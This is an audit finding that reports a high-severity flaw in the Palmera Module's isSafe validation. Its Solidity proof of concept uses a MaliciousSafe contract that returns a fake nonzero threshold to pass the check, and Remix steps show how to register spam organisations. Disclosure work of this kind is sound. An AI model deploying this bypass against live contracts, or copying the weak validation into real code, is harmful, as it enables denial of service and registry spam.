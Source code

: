 ## Title: Bypass of isSafe Validation Allows Malicious Contract Registrations and Spam the Palmera Module contracts with System-Wide Exploitation

### severity
 High

### Description

The isSafe function in the Helpers contract is designed to validate whether a given address is a Safe Smart Account Wallet. However, this validation can potentially be bypassed by a malicious contract that mimics the behavior of a Safe Smart Account Wallet. This issue can lead to unauthorized access, spamming of data structures, Denial of Service (DoS) attacks, compromised security and governance.


#### Impact

Bypass of isSafe Validation Allows Malicious Contract Registrations

### Proof Of Concept

Attack Scenario

1. Deploy Malicious Contracts: An attacker deploys multiple instances of a malicious contract 1 that mimics the behavior of a Safe Smart Account Wallet by implementing the getThreshold function to return a non-zero value.
2. Call registerOrg: The attacker calls the registerOrg function multiple times, using the addresses of the deployed MaliciousSafe contracts.
3. Impact: The orgHash array and other data structures are spammed with invalid entries, leading to excessive storage usage, increased gas costs, and potential performance degradation. The system's security and governance are compromised, and legitimate users face service disruption.

Create the following files in Remix IDE to demonstrate the vulnerability:

1. ISafe.sol

```
    // SPDX-License-Identifier: MIT
    pragma solidity 0.8.23;

    interface ISafe {
        function getThreshold() external view returns (uint256);
    }

```

2. MaliciousSafe.sol

```
    // SPDX-License-Identifier: MIT
    pragma solidity 0.8.23;

    import "./ISafe.sol";

    contract MaliciousSafe is ISafe {
        function getThreshold() external pure override returns (uint256) {
            return 1; // Mimic a valid Safe Smart Account Wallet
        }
    }
```
3. Helpers.sol

```
    // SPDX-License-Identifier: MIT
    pragma solidity 0.8.23;

    import "@openzeppelin/contracts/utils/Address.sol";
    import "./ISafe.sol";

    contract Helpers {
        using Address for address;

        /// @notice Method to Validate if address is a Safe Smart Account Wallet
        /// @dev This method is used to validate if the address is a Safe Smart Account Wallet
        /// @param safe Address to validate
        /// @return bool
        function isSafe(address safe) public view returns (bool) {
            /// Check if the address is a Safe Smart Account Wallet
            if (safe.isContract()) {
                /// Check if the address is a Safe Multisig Wallet
                bytes memory payload = abi.encodeCall(ISafe.getThreshold, ());
                (bool success, bytes memory returnData) = safe.staticcall(payload);
                if (!success) return false;
                /// Check if the address is a Safe Smart Account Wallet
                uint256 threshold = abi.decode(returnData, (uint256));
                if (threshold == 0) return false;
                return true;
            } else {
                return false;
            }
        }
    }
```

4. Helpers.t.sol

```
        // SPDX-License-Identifier: MIT
    pragma solidity 0.8.23;

    import "./Helpers.sol";
    import "./MaliciousSafe.sol";

    contract TestHelpers {
        Helpers helpers;
        MaliciousSafe maliciousSafe;

        constructor() {
            helpers = new Helpers();
            maliciousSafe = new MaliciousSafe();
        }

        function testIsSafeBypass() public view returns (bool) {
            return helpers.isSafe(address(maliciousSafe));
        }
    }
```

Run the Test in Remix

Open Remix IDE (https://remix.ethereum.org/).

Create the four files (ISafe.sol, MaliciousSafe.sol, Helpers.sol, and TestHelpers.sol) and copy the respective code into each file.

Compile all the contracts.

Deploy the TestHelpers contract.

Call the testIsSafeBypass function on the deployed TestHelpers contract.
If the testIsSafeBypass function returns true, it means the isSafe function can be bypassed by the MaliciousSafe contract. If it returns false, it means the isSafe function is robust against this specific bypass attempt.

